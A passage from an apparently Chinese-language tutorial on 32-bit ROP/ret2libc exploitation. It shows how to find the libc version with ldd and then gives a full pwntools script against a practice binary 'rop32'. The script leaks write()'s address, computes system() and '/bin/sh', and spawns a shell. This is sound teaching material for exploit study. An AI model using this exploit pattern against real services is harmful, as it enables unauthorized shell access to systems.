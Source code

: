 利用 lld 查看程序加载的 libc 库的版本

/lib32/libc.so.6

![ldd](../pictures/stack_overflow/rop_x86/ldd.png)

根据以上流程,构造如下脚本

```PYTHON
#!/usr/bin/python2.7

from pwn import *

libc = ELF("/lib32/libc.so.6")
elf = ELF("./rop32")

# p = remote(ip, port)
p = process("./rop32")

plt_write = elf.symbols["write"]
print 'plt_write= ' + hex(plt_write)
got_write = elf.got["write"]
print 'got_write= ' + hex(got_write)
vulnfun_addr = 0x0804843b
print 'vulnfun_addr= ' + hex(vulnfun_addr)

payload1 = 'A' * 76 + p32(plt_write) + p32(vulnfun_addr) + p32(1) + p32(
    got_write) + p32(4)

print "\n### sending payload1 ...###"
p.send(payload1)

print "\n### receving write() addr ...###"
write_addr = u32(p.recv(4))
print 'write_addr= ' + hex(write_addr)

print "\n### calculating system() addr and \"/bin/sh\" addr ...###"
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
print "system_addr= " + hex(system_addr)
binsh_addr = write_addr - (
    libc.symbols['write'] - next(libc.search('/bin/sh')))
print "binsh_addr= " + hex(binsh_addr)

payload2 = 'A' * 76 + p32(system_addr) + p32(vulnfun_addr) + p32(binsh_addr)

print "\n### sending paylaod2 ...###"
p.send(payload2)

p.interactive()
```
